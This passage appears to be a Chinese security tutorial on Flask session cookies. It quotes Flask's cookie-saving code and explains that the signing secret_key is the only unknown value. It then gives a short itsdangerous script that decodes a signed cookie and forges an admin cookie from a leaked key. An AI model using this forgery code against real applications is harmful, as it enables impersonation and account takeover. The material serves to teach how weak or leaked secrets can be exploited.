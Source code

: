 ```py
        # Add a "Vary: Cookie" header if the session was accessed at all.
        if session.accessed:
            response.vary.add('Cookie')

        if not self.should_set_cookie(app, session):
            return

        httponly = self.get_cookie_httponly(app)
        secure = self.get_cookie_secure(app)
        samesite = self.get_cookie_samesite(app)
        expires = self.get_expiration_time(app, session)
        # 将类型为字典的session对象序列化成字符串
        val = self.get_signing_serializer(app).dumps(dict(session))
        # 将最后的内容保存在cookie中
        response.set_cookie(
            app.session_cookie_name,
            val,
            expires=expires,
            httponly=httponly,
            domain=domain,
            path=path,
            secure=secure,
            samesite=samesite
        )
```

在默认情况下，除了`app.secret_key`的值是未知的，其它的参数都是固定好的
- 如果项目使用了session机制，`secret_key`字段是被强制要求设定的，可以通过在配置文件里写入固定字符串或启动时随机生成来获得
- 假如攻击者通过任意文件读取或其它手段拿到了项目的`secret_key`，那么完全有可能 <font color=OrangeRed> 解密和伪造cookie </font> 来控制用户身份

```py
# 例如如下代码：
from itsdangerous import *
import hashlib
from flask.json.tag import TaggedJSONSerializer
secret_key='f9cb5b2f-b670-4584-aad4-3e0603e011fe'
salt='cookie-session'
serializer=TaggedJSONSerializer()
signer_kwargs=dict(key_derivation='hmac',digest_method=hashlib.sha1)
sign_cookie='eyJ1c2VybmFtZSI6eyIgYiI6IllXUnRhVzQ9In19.XAquJg.AUEZAdrYhYCk3pg4iYy_NIpfpD0'

val = URLSafeTimedSerializer(secret_key, salt=salt,
                                      serializer=serializer,
                                      signer_kwargs=signer_kwargs)
data= val.loads(sign_cookie)
print data
#{u'username': u'test'}

crypt= val.dumps({'username': 'admin'})
print crypt
```
